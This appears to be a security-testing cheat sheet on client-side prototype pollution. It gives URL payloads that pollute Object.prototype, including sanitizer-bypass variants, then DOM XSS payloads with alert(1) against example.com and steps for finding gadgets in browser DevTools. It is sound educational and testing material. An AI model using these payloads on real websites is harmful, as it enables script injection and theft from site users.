 ```yaml
---
title: Prototype Pollution in Client-Side
description: Prototype Pollution is a JavaScript vulnerability that allows attackers to add arbitrary prooperties to global object prototypes. The vulnerability may exist in Node.js applications.
tags:
    - Web
refs:
    - https://portswigger.net/web-security/prototype-pollution/client-side
    - https://github.com/BlackFan/client-side-prototype-pollution
date: 2023-07-03
draft: false
---
```


## Investigation

Check if we can assign arbitrary property via URL.  
Try various ways.

```sh
https://example.com/?__proto__[foo]=bar
https://example.com/?__proto__.foo=bar
https://example.com/?constructor.[prototype][foo]=bar
https://example.com/?constructor.prototype.foo=bar
# Bypass sanitization
https://example.com/?__pro__proto__to__[foo]=bar
https://example.com/?__pro__proto__to__.foo=bar
https://example.com/?constconstructorructor[prototype][foo]=bar
https://example.com/?constconstructorructor.prototype.foo=bar
https://example.com/?constconstructorructor[protoprototypetype][foo]=bar
https://example.com/?constconstructorructor.protoprototypetype.foo=bar
```

Open browser console, and type the following to check if our above property is assigned.

```js
Object.prototype.foo
constructor.prototype.foo

// the expected output: "bar"
```

<br />

## DOM XSS

If our payload affects an HTML element after loading, we can inject DOM-based XSS as below.  
Assume the key name of the property is "source_url", whose value is loaded as "src" in a `script` element. What property name is defined might be found by investigating JavaScript code assigned in the website.

```sh
https://example.com/?__proto__[source_url]=data:,alert(1);
https://example.com/?__proto__[source_url]=data:,alert(1);
https://example.com/?__proto__[source_url]=alert(1)-
```

<br />

## Finding Gadgets

1. In browser, open **DevTools** and click the **Sources (Chrome)** or the **Debugger (FireFox)** tab, then find the JavaScript code which is affected by our pollution.
2. When found the line of the code, click the line number at the left of the line to add a breakpoint. Then reload the page.
3. The line that added as a breakpoint is highlighted. We can hover the target property to check the current value assigned.
4. Adjust for executing our payload while checking the property's value.

